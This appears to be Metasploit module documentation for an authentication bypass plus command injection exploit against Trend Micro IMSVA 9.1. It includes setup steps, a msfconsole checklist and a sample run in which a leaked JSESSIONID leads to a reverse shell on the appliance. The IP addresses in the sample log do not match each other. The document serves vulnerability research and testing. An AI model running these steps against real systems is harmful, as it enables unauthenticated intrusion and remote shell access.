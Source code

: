 ## Vulnerable Application
This module exploits the authentication bypass and command injection vulnerability together. Unauthenticated users can execute a terminal command under the context of the web server user.

The specific flaw exists within the management interface, which listens on TCP port 443 by default. Trend Micro IMSVA product have widget feature which is implemented with PHP. Insecurely configured web server exposes diagnostic.log file, which leads to an extraction of JSESSIONID value from administrator session. Proxy.php files under the mod TMCSS folder takes multiple parameter but the process does not properly validate a user-supplied string before using it to execute a system call. Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the web server user.

**Vulnerable Application Installation Steps**

IMSVA is distrubed as an ISO image by Trend Micro.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "InterScan Messaging Security (Virtual Appliance)" and click.
3. At the time of writing this documentation, you must see "IMSVA-9.1-1600-x86-64-r2.iso" next to Download button.
4. Click to the download button and complete installation of ISO.

If you don't see a affected version of IMSVA, you can try to download IMSVA-9.1-1600 directly from following URL.

[http://files.trendmicro.com/products/imsva/9.1/IMSVA-9.1-1600-x86_64-r2.iso](http://files.trendmicro.com/products/imsva/9.1/IMSVA-9.1-1600-x86_64-r2.iso)

**System requirements:**
- Virtualbox or VMware can be used. 
- 4 GB of memory at least.
- 120 GB of disk size at least.

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/trendmicro_imsva_widget_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target appears to be vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Awesome. JSESSIONID value` in console.
- [ ] **Verify** that you are getting `Session with widget framework successfully initiated` session.

## Scenarios

```
msf > use exploit/linux/http/trendmicro_imsva_widget_exec
msf exploit(trendmicro_imsva_widget_exec) > set RHOST 12.0.0.201
RHOST => 12.0.0.184
msf exploit(trendmicro_imsva_widget_exec) > check
[*] 12.0.0.184:443 The target appears to be vulnerable.
msf exploit(trendmicro_imsva_widget_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Extracting JSESSIONID from publicly accessible log file
[+] Awesome. JSESSIONID value = 0567E974AE729E58178C9B513FEBE41E
[*] Initiating session with widget framework
[+] Session with widget framework successfully initiated.
[*] Triggering command injection vulnerability
[*] Command shell session 1 opened (12.0.0.1:4444 -> 12.0.0.201:44103) at 2017-10-08 18:05:11 +0300

pwd
/opt/trend/imss/UI/adminUI/ROOT/widget

```
